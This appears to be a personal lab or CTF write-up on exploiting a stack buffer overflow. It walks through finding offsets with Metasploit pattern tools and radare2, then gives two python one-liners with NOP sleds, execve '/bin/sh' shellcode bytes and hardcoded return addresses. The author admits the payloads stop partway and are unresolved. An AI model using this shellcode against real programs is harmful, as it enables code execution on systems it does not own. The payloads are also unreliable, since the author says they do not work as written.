 **Find offset**

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

- Use as input for program
- Find offset of stack frame pointer (rbp)
```
> r2 -d buffer_overflow [pattern]
> aa
> dr
``` 
- Use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [pattern found in rbp]`
  (Keep Little Endianness in mind)
- Offset of pattern is 144


**Find address of buffer**
Provide argument `AAAA` to program

```
> r2 -d buffer_overflow AAAA
> aa
> pdf @sym.copy_arg
> db [address of 'call sym.imp.puts]
> dc
> afvd
```
var var90_h seems to hold our value, so this must be the buffer

You can also find the address of the buffer by looking at the memory area around the stack pointer (radare2):
`px @rsp` 

![Address of buffer](./img/buffer_address.png)
![Memory around stack pointer](./img/stack_memory.png)

Fill the ebp with this value:

`python -c "print(NOP * some amount + shell code (30 bytes) + random data to fill up to 144 bytes + buffer address)"`  

`python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 18 + '\xe0\xe0\xfe\xff\xff\xff\xf7')"`

With this payload, we actually get the program to execute our code. However, in the middle of it, it stops. Dunno what's happening here :(




  # Buffer overflow 4

  Rbp register starts at offset 156
  RIP register starts at offset 164
  Buffer memory starts at 0x7fffffffe0c5

  payload : `python -c "print('\x90' * 100 + '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80' + 'A' * 19 + '\xc5\xe0\xff\xff\xff\x7f')"`


**In general it seems there is a problem with the shell code. It's not a bad char, though. Maybe something related to function exit call? Investigate further!** 
